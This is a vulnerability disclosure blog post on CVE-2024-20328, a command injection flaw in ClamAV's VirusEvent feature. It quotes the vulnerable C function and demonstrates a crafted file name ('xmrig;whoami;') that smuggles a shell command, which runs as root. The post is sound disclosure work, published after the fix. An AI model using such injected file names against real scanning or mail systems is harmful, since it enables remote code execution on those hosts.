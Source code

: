 ```yaml
---
layout: single
title:  "CVE-2024-20328 - ClamAV Not So Calm"
date:   2024-02-07 12:00:00 +0530
categories: Vulnerabilites
---
```


On Janurary 2nd, 2024, I found a vulnerability in [ClamAV](https://www.clamav.net/), a popular open-source antivirus engine.

A crafted file name can cause a command injection vulnerability in ClamAV's `VirusEvent` feature. This can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd.

Since ClamAV is being used as an antivirus engine to scan files especially in mail servers, this vulnerability can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd from remote without user interaction.

## Vulnerability
The `VirusEvent` feature allows Clamd to execute a command when a virus is detected. The command is executed in the following format:
```
VirusEvent /usr/local/bin/send_sms 123456789 "VIRUS ALERT: %v in %f"
```

Where `%v` is the virus name and `%f` is the file name. The file name is not sanitized, allowing an attacker to inject a command into the command string.

`VirusEvent` is a configuration option in the `clamd.conf` file. The command is executed with the privileges of the user running Clamd.

In the file `clamd/clamd_others.c`, the function `virusaction` is the function that handles the `VirusEvent` feature. The function is defined as follows:
```c
void virusaction(const char *filename, const char *virname,
                 const struct optstruct *opts)
{
    pid_t pid;
    const struct optstruct *opt;
    char *buffer_file, *buffer_vir, *buffer_cmd, *path;
    const char *pt;
    size_t i, j, v = 0, f = 0, len;
    char *env[4];

    if (!(opt = optget(opts, "VirusEvent"))->enabled)
        return;

    path   = getenv("PATH");
    env[0] = path ? strdup(path) : NULL;
    j      = env[0] ? 1 : 0;
    /* Allocate env vars.. to be portable env vars should not be freed */
    buffer_file =
        (char *)malloc(strlen(VE_FILENAME) + strlen(filename) + 2);
    if (buffer_file) {
        sprintf(buffer_file, "%s=%s", VE_FILENAME, filename);
        env[j++] = buffer_file;
    }

    buffer_vir =
        (char *)malloc(strlen(VE_VIRUSNAME) + strlen(virname) + 2);
    if (buffer_vir) {
        sprintf(buffer_vir, "%s=%s", VE_VIRUSNAME, virname);
        env[j++] = buffer_vir;
    }
    env[j++] = NULL;

    pt = opt->strarg;
    while ((pt = strstr(pt, "%v"))) {
        pt += 2;
        v++;
    }
    pt = opt->strarg;
    while ((pt = strstr(pt, "%f"))) {
        pt += 2;
        f++;
    }
    len = strlen(opt->strarg);
    buffer_cmd =
        (char *)calloc(len + v * strlen(virname) + f * strlen(filename) + 1, sizeof(char));
    if (!buffer_cmd) {
        if (path)
            xfree(env[0]);

        xfree(buffer_file);
        xfree(buffer_vir);
        return;
    }
    for (i = 0, j = 0; i < len; i++) {
        if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'v') {
            strcat(buffer_cmd, virname);
            j += strlen(virname);
            i++;
        } else if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'f') {
            strcat(buffer_cmd, filename);
            j += strlen(filename);
            i++;
        } else {
            buffer_cmd[j++] = opt->strarg[i];
        }
    }

    pthread_mutex_lock(&virusaction_lock);
    /* We can only call async-signal-safe functions after fork(). */
    pid = vfork();
    if (pid == 0) { /* child */
        _exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
    } else if (pid > 0) { /* parent */
        pthread_mutex_unlock(&virusaction_lock);
        while (waitpid(pid, NULL, 0) == -1 && errno == EINTR) continue;
    } else {
        pthread_mutex_unlock(&virusaction_lock);
        logg(LOGG_ERROR, "VirusEvent: fork failed.\n");
    }
    if (path)
        xfree(env[0]);

    xfree(buffer_cmd);
    xfree(buffer_file);
    xfree(buffer_vir);
}
```
The function first checks if the `VirusEvent` feature is enabled. If it is, it then gets the `PATH` environment variable and stores it in `env[0]`. It then allocates memory for the `VE_FILENAME` and `VE_VIRUSNAME` environment variables, and stores them in `env[1]` and `env[2]` respectively. It then allocates memory for the command string, and replaces `%v` and `%f` with the virus name and file name respectively. It then calls `vfork()` to create a child process, and executes the command string in the child process. The parent process waits for the child process to finish executing the command string.

The vulnerability is in the way `buffer_cmd` being handled without being sanitized. An attacker can inject a command into the command string, and execute arbitrary code on the system running Clamd.

The following line is the vulnerable line:
```c
_exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
```

## Exploit
Assuming clamd.conf is configured as follows:
```
VirusEvent "echo VIRUS DETECTED: %v in the path %f >> /dev/stdout"
```

The following file name will cause the command to be executed:
```bash
# xmrig;whoami; - payload.
echo VIRUS DETECTED: [signature] in the path xmrig;whoami; >> /dev/stdout
```

Output:
```
VIRUS DETECTED: Multios.Coinminer.Miner-6781728-2.UNOFFICIAL in the path
/host/crypto-miner/xmrig
root
```

## Who is affected?
* 0.104 (all patch versions)
* 0.105 (all patch versions)
* 1.0.0 through 1.0.4 (LTS)
* 1.1 (all patch versions)
* 1.2.0 and 1.2.1


## Timeline
- Janurary 2nd, 2024 - Vulnerability found.
- Janurary 2nd, 2024 - Vulnerability reported to ClamAV team.
- Feburary 7th, 2024 - Vulnerability fixed by ClamAV team.

![CVE-2024-20328](https://raw.githubusercontent.com/amitschendel/amitschendel.github.io/master/assets/images/clam.jpeg)